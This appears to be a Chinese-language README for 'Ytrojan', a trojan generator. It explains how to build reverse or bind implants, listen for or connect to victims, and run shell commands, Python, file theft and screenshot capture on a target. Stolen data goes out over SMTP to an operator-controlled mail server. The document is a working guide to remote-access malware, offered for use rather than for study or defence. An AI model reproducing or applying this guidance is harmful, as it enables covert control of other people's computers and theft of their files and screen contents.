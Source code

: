 # Ytrojan

Ytrojan 一个简易的木马生成工具

## 如何使用Ytrojan

用Python 3.10或以上版本的解释器运行Main-Cmd.py

运行结果
```
__   ___             _             
\ \ / / |_ _ __ ___ (_) __ _ _ __  
 \ V /| __| '__/ _ \| |/ _` | '_ \ 
  | | | |_| | | (_) | | (_| | | | |
  |_|  \__|_|  \___// |\__,_|_| |_|
                  |__/             
                                      
Ytrojan $>
```  

### 使用generate命令生成被控端  

```
generate [选项] [路径] [ip] [port]

1. [选项] 可选0和1
   当选项的值为0时 生成的为反向被控端
   当选项的值为1时 生成的为正向被控端
2. [路径] 被控端生成位置
3. [ip] 本机或目标的ip
   [port] 本机或目标的port
   当选项的值为0时 ip与port为本机
   当选项的值为1时 ip与port为被控端

当弹出 parameters $> 意味这您需要提供您想要的被控端功能
目前仅支持 shell,get,win,py

例如您想要被控端可以执行shell和py语句 您可以这样操作
parameters $>shell py

```  

### 使用connect命令连接正向木马的被控端

```
connect [ip] [port]

1. [ip][port] 均为目标
2. 此命令要运行在被控端之后!
```  

### 使用listen命令接受反向木马被控端的连接  

```
listen [ip] [port]

1. [ip][port] 均为本机
2. 此命令要运行在被控端之前!
```  

### 如何操作目标  

在连接到目标后 可以通过以下命令操作(连接到目标或会输出"ip $>")  

```
1. shell [命令]     #执行shell
2. get [文件路径]    #获取文件
3. win             #获取屏幕截图
4. py [语句]        #执行python语句
```  

例如
```
1. shell whoami #执行whoami
   shell id     #执行id
   shell ls     #执行ls

2. get a.txt    #获取a.txt
   get /a.jpg   #获取根目录下的a.jpg  

3. win          #获取屏幕截图

4. py print('hello world')    #在目标上输出hello world
   py import os;print(os.name)#获取目标操作系统信息
```  

在这其中请注意shell和get及win命令!!!

shell命令是非交互式shell 您无法执行vim sudo 这样的命令!!!  

get和win使用smtp传输文件 您在使用两者时要先如下操作!!!  

```
$> py host = "smtp服务器域名" #例如163的smtp.163.com
命令执行成功
$> py port = "smtp服务所在端口" #一般是25端口
命令执行成功
$> py username = "您的邮箱"
命令执行成功
$> py password = "smtp运营商提供给您的密码" 
```




   
